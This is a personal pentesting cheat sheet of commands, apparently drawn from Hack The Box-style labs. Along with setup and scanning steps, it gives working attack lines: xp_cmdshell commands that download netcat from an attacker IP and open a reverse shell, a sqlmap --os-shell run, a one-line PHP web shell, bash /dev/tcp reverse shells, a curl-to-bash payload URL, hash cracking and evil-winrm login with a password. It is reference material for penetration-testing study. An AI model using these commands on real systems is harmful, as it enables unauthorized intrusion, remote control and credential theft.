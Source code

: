 ```yaml
---
title: "Pentesting tools and useful commands"
date: 2022-10-05
---
```


[GTFOBins](https://gtfobins.github.io/) — list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

[Kali OS](https://www.kali.org/)

[Select Network Repositories](https://www.kali.org/docs/general-use/kali-linux-sources-list-repositories/)

Default:

```bash
echo "deb http://http.kali.org/kali kali-rolling main contrib non-free" | sudo tee /etc/apt/sources.list
```

More stable:

```bash
echo "deb http://http.kali.org/kali kali-last-snapshot main contrib non-free" | sudo tee /etc/apt/sources.list
```

Install all tools:

```bash
sudo apt install -y kali-linux-large
```

Install GUI:

```bash
sudo apt install -y kali-win-kex
```

[GUI Documentation.](https://www.kali.org/docs/wsl/win-kex/) Run GUI, to exit from full screen mode press **F8**:

```bash
kex --win -s
```

[Wappalyzer](https://www.wappalyzer.com/apps) — browser extension to see the technologies used on websites.

OpenVPN

```bash
sudo openvpn --config vpn.ovpn --daemon
```

The network interface can be checked by running the **ifconfig** command in the terminal.

Shutdown

```bash
sudo ifconfig tun1 down
```

Search WebCatalogs on site:
`dirsearch -u http://october.metaltech.stf/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt`

Responder

```bash
sudo responder -I tun0
```

John the ripper

```bash
zip2john backup.zip > hashes
```

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

Identify possible hashes

```bash
hashid 2cb42f8734ea607eefed3b70af13bbd3
```

Crack hash

```bash
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```

[Pentesting MSSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

[MSSQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

Impacket mssql client

```bash
impacket-mssqlclient ARCHETYPE/[email protected] -windows-auth
```

```sql
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.17.81/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.17.81 443"
```

SQL map

```bash
sqlmap -u 'http://10.129.10.184/dashboard.php?search=asd' --cookie='PHPSESSID=tg7rj9h95j4bb1u3211ti406qo'
```

```bash
sqlmap -u 'http://10.129.10.184/dashboard.php?search=asd' --cookie='PHPSESSID=tg7rj9h95j4bb1u3211ti406qo' --os-shell
```

[winPEAS](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe) (Windows Privilege Escalation)

[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) (Linux Privilege Escalation)

Evil Win Remote

```bash
evil-winrm -i 10.129.233.177 -u administrator -p badminton
```

[Nmap](https://nmap.org/)

```bash
sudo nmap -sV 192.168.1.1

sudo nmap -sV -sC 192.168.1.1

sudo nmap -p- --min-rate 5000 -sV 192.168.1.1
```

Gobuster

```bash
go install github.com/OJ/gobuster/v3@latest
git clone https://github.com/danielmiessler/SecLists.git
gobuster dir --url http://10.129.236.130/ --wordlist ./SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
gobuster dir --url http://10.129.119.70/ --wordlist ./SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
```

MySQL

```bash
mysql -h 10.129.132.32 -u root
```

```sql
SHOW databases; : Prints out the databases we can access.
USE {database_name}; : Set to use the database named {database_name}.
SHOW tables; : Prints out the available tables inside the current
database.
SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.
```

SMB

```bash
smbclient -N -L \\\\{TARGET_IP}\\
-N : No password
-L : This option allows you to look at what services are available on a server
```

[Fully interactive shells](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

Simple PHP Shell

```php
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Reverse Shell

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1' > shell.sh
```

Or

```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/1337 0>&1"
```

Start ncat listener

```bash
nc -nvlp 1337
```

Start Web Server

```bash
python3 -m http.server 8000
```

Start example

```
http://thetoppers.htb/shell.php?cmd=curl%20%3CYOUR_IP_ADDRESS%3E:8000/shell.sh|bash
```

Functional shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Upgrade shell

```bash
script /dev/null -c bash
```

[Burp Suite](https://portswigger.net/burp/releases/professional-community-2022-7-1?requestededition=community)

[Metasploit](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

[sqlmap](https://sqlmap.org/)

